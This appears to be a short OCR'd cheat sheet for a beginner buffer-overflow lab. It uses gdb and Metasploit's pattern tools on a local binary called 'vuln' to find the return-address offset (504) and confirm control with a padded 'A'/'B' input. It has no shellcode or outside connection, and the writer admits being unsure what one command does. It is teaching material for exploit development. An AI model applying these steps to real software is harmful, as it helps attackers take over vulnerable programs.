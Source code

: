 ```
apt-get install gdb
gdb -q vuln
run `python -c 'print "\x41" * 1000'`
```
```
info registers show all registers
s step
c continue past a break point
quit
```

Open a new tab.
```

cd /opt/metasploit/msf3/tools
./pattern_create.rb 1000
Copy this random string.
```

Tab 1
```

run <random string>
y
Copy the memory address of the crash excluding the first 2 characters (0x).
```

Tab 2
```

./pattern_offset.rb <memory address>
504
```

Tab 1
```
- disassemble main

- Set a breakpoint for the line after the strcpy function.
```
```
break *0x080484e7
```
````
run `python -c 'print "\x41" * 504 + "\x42" * 4'`
y
x/16wx $esp ### not sure what this does
info registers
```
